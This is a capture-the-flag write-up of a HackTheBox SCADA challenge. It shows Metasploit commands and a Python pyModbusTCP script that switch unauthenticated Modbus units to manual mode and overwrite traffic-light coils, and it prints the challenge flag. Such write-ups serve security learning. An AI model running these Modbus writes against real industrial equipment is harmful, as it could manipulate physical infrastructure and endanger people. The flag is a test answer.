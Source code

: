 +++
date = "2021-11-24"
author = "biplavxyz"
title = "HackTheBox University CTF 2021 - LightTheWay - SCADA - Changing traffic lights with Metasploit and Python"
+++
Greetings everyone!  
This writeup is going to be about my best challenge from HackTheBox University Ctf 2021.  
This challenge was named `LightTheWay` from `SCADA` category. The goal of the challenge was to change the traffic lights to let the vehicle pass through all the stops. Nmap, and Metasploit were used for enumeration, and a python script was created to automate all of the monotonous steps.  

We were given an ip `10.129.96.95` and that was it.  

As with most challenges, the first step was `reconnaissance` using `nmap`.  
`nmap -sCV 10.129.96.95 -p 0-1000`  

From the nmap scan, port 22, 80, and 502 were found to be open. 
I skipped port `22` as it's almost impossible to break it. Next interesting port was port `80`.
  
![1](/scada1.png)
  
Checking port `80` showed a stopped vehicle, and different traffic lights on the top right corner with 6 junctions.  
  
![2](/scada2.png)
   
Also, there was a path highlighted in the `Human Machine Interface(HMI)` from where we had to move the vehicle to get the flag. 
 
`HMI` is basically a software that provides a user with graphical user interface to monitor or process commands in SCADA networks.  

As this was a `SCADA` related challenge, I started looking further onto port `502` as it's very poular port in SCADA systems for `modbus protocol`.  
So, it's time to dig deeper onto the `port 502`.  

Modbus operates as a `master-slave` architecture, which is basically like a `client-server` architecture. 
  
![3](/scada3.png)
   
In Modbus, `master` is like a client which sends a request to read or write, and `slave` is like a server which processes it, and provides output.  
Another thing to note about Modbus protocol is that it `does not have any sort of authentication` at any level of the protocol which makes it very vulnerable.  
 
Then, I fired up `metasploit` to do more enumeration.    
First command was `search modbus` to find all `modbus` related modules, which showed 6 matching modules.  
`auxiliary/scanner/scada/modbusclient` module seemed most interesting, so we went with it. 
   
![4](/scada4.png)
  
`use auxiliary/scanner/scada/modbusclient`  
`show info`  

After Checking for all options and info,it can be seen that we can read, and write data. `RHOST`, `RPORT`, and `DATA_ADDRESS` are required fields to be set.
  
![5](/scada5.png)
  
It can be set as follow:  
`set RHOST 10.129.96.95`
  
`set RPORT 502`
  
`set DATA_ADDRESS 0`  

`set NUMBER 0`

Also, if we take a look at `registers` for Modbus, `COIL` and `HOLDING_REGISTERS` are very interesting as they can be read and written easily.  
Here is how the registers look like in modbus protocol.  
  
![registers](/scada15.png)
 
If we have ability to read and write data, why not try it? Let's read what we can extract from there. So, I thought of reading the coils first to see how it looks like. It can be done with following command.  
 
`set action READ_COILS`
  
![6](/scada6.png)
  
Then, running the exploit reads the value of coils from `UNIT_NUMBER 1`.
We see a bunch of 0's, but interestingly there are also some `1's` in there.  
  
![7](/scada7.png)
  
Then, python can be used to find the index of first `1` in the list.
The first index was `571`.  

![8](/scada8.png)
  
Also, when I was setting the value `UNIT_NUMBER` with command `set UNIT_NUMBER 2`, `set UNIT_NUMBER 3` and so on, I was able to read coils only upto `UNIT_NUMBER 6`that had `1` somewhere in the output. Any `UNIT_NUMBER` beyond that didn't include `1`.  
That was interesting because there were `6 junctions` in the path. So, I was able to get index for all 6 junctions using similar approach. The `DATA_ADDRESS` index of all the six units were `571, 1921, 531,1267, 925, 888` respectively. All of this process is done by using python script later in the writeup.    

Now, it's time to write to the coils so that we can change the lights.  

When checking `http://10.129.96.95/api`, I was able to see the directions, and their corresponding coil values, but unfortunately the order of representation in the API doesn't match the actual order of directions. 
  
![9](/scada9.png)
   
It took us a while to figure it out, but we found out that the correct pattern to write was:  
`NG NY NR EG EY ER SG SY SR WG WY WR`  

![10](/scada2.png)
  
By looking at the picture, it's clear that we need to change the west side to green because the car is about to turn towards west for the first junction, and we have to turn the East side to Green for the 2nd and 4th junction, and finally the north side for 6th junction.  

But, to change the lights the challenge stated that `We need to revert the system to manual`. So, let's first find a way to change to manual mode.  
For this purpose, we have to read `HOLDING REGISTERS` to see what values are in there.  
Initially, I ran `set action READ_HOLDING_REGISTERS` and it showed me error `ILLEGAL DATA ADDRESS`. So, changing the value for `NUMBER` solved this issue.  
I used command `set NUMBER 99` to set the value of `NUMBER` to 99, then ran it, which gave me decimal encoded numbers.  
  
![10](/scada10.png)
  
I used a python script to decode it back to `ASCII` which evaluated to `auto_mode:true`.  

![11](/scada11.png)

```python
auto = [97, 117, 116, 111, 95, 109, 111, 100, 101, 58, 116, 114, 117, 101]

print("".join(chr(x) for x in auto))
```
So, by changing the string `true` to `false`, and writing it to the `HOLDING_REGISTERS` we were able to change the mode to `manual`.  
  
![12](/scada12.png)
  
Again, metasploit mode can be used to write to the `REGISTERS` with following commands:  
`set DATA_REGISTERS 97,117,116,111,95,109,111,100,101,58,102,97,108,115,101`  

`set action WRITE_REGISTERS`  

`run`
    
![13](/scada13.png)
  
Now, we can verify it did indeed set the `auto mode:false` by reading the register values again.  
  
![14](/scada14.png)
  
The register values have been modified. So, now we can write to the coils and change the color of traffic lights.  

Recalling that order of the lights is `NG NY NR EG EY ER SG SY SR WG WY WR`.  

Current value for junction 1 is:   
`[False, False, True, False, False, True, False, False, True, True, False, False]`  

which can be changed to:   
`[False, False, True, False, False, True, False, False, True, False, False, True]`  
which will turn on green light on the west side so that the vehicle can pass Junction 1.  

Similar process can be followed for other Junctions too.  
The placement of lights was kind of weird, and we had to play around for a while to make it all work.  

As this process was little bit tedious with `metasploit`, `pyModbusTCP` client can be used to make this process faster.    

Also, we had to perform trial and error for a while to change  `data address base index` for each units inorder to write successfully to the coils.

Here is the final script that we wrote to get the flag:

{{< code language="python" title="Exploit Payload" id="2" expand="Show" collapse="Hide" isCollapsed="false" >}}
from pyModbusTCP.client import ModbusClient
import requests
import json


data_address = {}

c = ModbusClient(host="10.129.96.95", port="502", unit_id=1, auto_open=True)


## Manual off

for i in range(1,7):
    c.unit_id(i)
    c.write_multiple_registers(10, [102,97,108,115,101])
    print(f"[+] Slave_id {i} set to manual mode" )

for i in range(1,7):
    c.unit_id(i)
    regs = c.read_coils(0,2000)

    data_address[i] = regs.index(True)
c.unit_id(1)
c.write_multiple_coils(571,[False, False, True, False, False, True, False, False, True, True, False, False])

c.unit_id(2)
c.write_multiple_coils(1920, [True, False, False, False, False, True,False, False, True, False, False, True])


c.unit_id(4)
c.write_multiple_coils(1266, [False, False, True, False, False, True,False, False, True, True, False, False])


c.unit_id(6)
c.write_multiple_coils(886,[False, False, True, False, False, True, False, False, True, True, False, False])

print(f"[+] pwn completed, Here's a gift for you!!")

print(json.loads(requests.get('http://10.129.96.95/api').text)['flag'])
{{< /code>}}

  
![15](/scada_flag.gif)
And, **PWNED**    
Flag is: `HTB{w3_se3_tH3_l1ght}`

Thank you for reading.  
Let's Keep learning :)  

> - <cite>CarpeDiem</cite>

